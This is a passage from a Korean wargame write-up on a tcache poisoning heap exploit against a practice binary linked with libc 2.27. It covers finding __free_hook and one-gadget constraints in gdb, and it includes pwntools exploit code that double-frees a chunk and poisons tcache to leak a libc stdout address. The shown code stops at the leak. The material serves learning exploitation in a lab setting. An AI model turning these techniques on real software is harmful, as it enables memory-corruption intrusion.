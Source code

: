 대충 아무곳이나 브레이크를 걸고 (난 main+322 에 걸어둠)  
__free_hook 의 주소를 받아보자.  

0x7ffff7dcf8e8 이 나왔다.  

이제 여기를 x/gx 해주면, 뭐 아무 값도 없다.  
우린 저 자리에 원가젯을 넣을 거다.  

아무튼 브레이크를 걸고 쭉 실행을 시켜보면,  

<br>

<img width="1436" height="906" alt="image" src="https://github.com/user-attachments/assets/e65eaf89-2130-4e68-a6c3-d1be4a7b57fd" />


어딘가 걸리면서 세그먼트 폴트가 될 거다.  

아무 값도 없는데 브레이크를 걸었으니 당연한 거고, 우린 저 원가젯 조건을 만족하는게 뭔지만 찾으면 되니 값들을 쳐보면?   

rsp+0x40 가 조건을 만족한다는 것을 알았다.  
원가젯 = libc_base + 0x4f432 로 마저 코드를 짜주자.  

<br> 

**익스플로잇 코드 (최종)**
```python
from pwn import *

p = process('./tcache_poison', env={"LD_PRELOAD":"./libc-2.27.so"})
e = ELF('./tcache_poison')
libc = ELF('./libc-2.27.so')

def alloc(size, content):
    p.sendlineafter(b'Edit\n', b'1')
    p.sendlineafter(b'Size: ', str(size).encode())
    p.sendafter(b'Content: ', content)

def free():
    p.sendlineafter(b'Edit\n', b'2')

def print3():
    p.sendlineafter(b'Edit\n', b'3')

def edit(content):
    p.sendlineafter(b'Edit\n', b'4')
    p.sendafter(b'chunk: ', content)

alloc(48, b'AAAA')
free()
edit(b'A'*8 + b'\x00')
free()

addr_stdout_pointer = e.symbols['stdout']
print('stdout pointer addr : ', hex(addr_stdout_pointer))

alloc(48, p64(addr_stdout_pointer))
alloc(48, b'BBBB')

_io_2_1_stdout_lsb = p64(libc.symbols['_IO_2_1_stdout_'])[0:1]
alloc(48, _io_2_1_stdout_lsb)

print3()

p.recvuntil(b'Content: ')
leak_stdout = u64(p.recv(6).ljust(8, b'\x00'))

print('leak_stdout addr : ', hex(leak_stdout))

```